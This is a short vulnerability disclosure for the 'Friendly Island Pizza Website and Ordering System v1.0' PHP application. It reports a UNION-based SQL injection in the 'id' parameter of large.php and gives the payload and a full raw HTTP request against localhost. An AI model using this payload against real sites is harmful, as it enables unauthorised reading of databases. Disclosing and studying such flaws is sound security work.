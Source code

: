 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author: a-xsg

Website source address：https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /FriendlyIsPizzaWebsite/large.php

GET parameter 'id' exists SQL injection vulnerability

Payload:id=1 union all select null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null--

```
GET /FriendlyIsPizzaWebsite/large.php?id=1%20union%20all%20select%20null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null-- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

The concat statement executes successfully

![https://github.com/tangtangtang123456/bug_report/blob/main/pictures/1.png]
